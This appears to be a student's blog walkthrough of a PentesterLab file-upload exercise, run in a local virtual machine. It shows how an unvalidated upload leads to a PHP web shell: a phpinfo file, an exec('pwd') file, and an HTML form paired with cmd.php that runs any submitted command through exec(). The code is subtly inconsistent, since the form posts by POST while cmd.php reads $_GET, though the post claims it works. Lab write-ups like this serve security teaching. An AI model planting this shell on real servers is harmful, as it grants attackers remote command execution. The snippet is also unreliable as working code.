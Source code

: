 # Baby's first PHP shell
I previously had been auditing a course here at Portland State for web application security -- the faculty provides all the course material for free online, so anyone can take a look at it. The aim of the course is to get students familiar with basic security principles -- things to watch out for when developing hosted applications and how web applications behave in comparison to desktop or server-based programs. A server-side application may have a vulnerability in terms of passing un-validated data for execution, but that has a different threat model in comparison to a public website. Either way, the point is to instill best practices and have this cascade over to other development projects.  


For our testing sandbox, we relied on pre-configured images from PentesterLab (link below for the curious)  

https://pentesterlab.com/exercises/web_for_pentester/attachments  


Pentester Lab is a great resource that provides guides on how to execute various exploits -- SQL injections, XSS attacks, and (what we're talking about today) PHP shells, to name a few.  


I have some experience with web site exploitation but have never really executed a PHP shell attack -- I really had only heard the words "PHP Shell" and knew nothing past that point. I set up the ISO in Virtual Box locally and fired it up to get started.  


Clicking on the File Upload 1 exercise, if we successfully upload a file we receive this response:  

 
![Upload](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/1UploadProcess.png)  


Clicking on the link in the response takes us directly to the image as well as shows where that image is on the server. From this URL, we can tell exactly where the file is on the server as well.  


![Raccoon](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/2UploadResult.png)  


Most websites nowadays screen for the filetype that's being uploaded to prevent remote code execution as a precaution. Instead of a jpeg, I'm going to upload a PHP file, which, if executed, will show the version of PHP running on the server. You can create this file by typing the following into a file and saving it off as a .php file -- the name does not matter.  


`<?php phpinfo();?>`

That's all! The ?php portion initializes PHP by saying, "I am going to run a PHP function." The phpinfo(); is the actual function call which shows PHP's configuration on this server.  


![PHP Info](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/3phpinfo.png)  


Success! So what other commands can we send to this server through the file upload feature? PHP has a couple of functions that we can use to accomplish this if we combine them together.  


The PHP exec command will accept a system command as an argument and can store the result as a variable. The echo command works the same as on the command line -- it'll show whatever is passed to it to the screen. You can read more about both these commands here in the PHP manual:  


https://www.php.net/manual/en/function.exec.php
https://www.php.net/manual/en/function.echo.php  


So what if we modify that phpinfo file to list what directory we are in by executing the pwd linux command?  


    <?php echo exec("pwd")?>

![PWD](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/4pwd.png)  


I am a bit lazy, though, and don't want to have to upload a file every single time that I want to execute a command, so let's make an html form that passes a command to be executed by the php. I'll split this out into two files -- page.html will have all form materials and cmd.php will execute the command.  


## page.html
    <html>
    <body>
    <form method="POST" action="cmd.php">
        <input type="text" id="command" name="command" >
            <input type="submit" name="submit">
    </form>
    </body>
    </html>

## cmd.php
 
    <html>
    <body>
    <?php
    $var = $_GET['command'];
    echo exec($var);
    ?>
    </body>
    </html>

Now, when I type a command into here and submit...
![Execute](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/5query.png)  


I get a new page with the results!
![Result](https://raw.githubusercontent.com/mattkduran/mattkduran.github.io/master/_thumbnails/2020-03-14/6catResult.png)
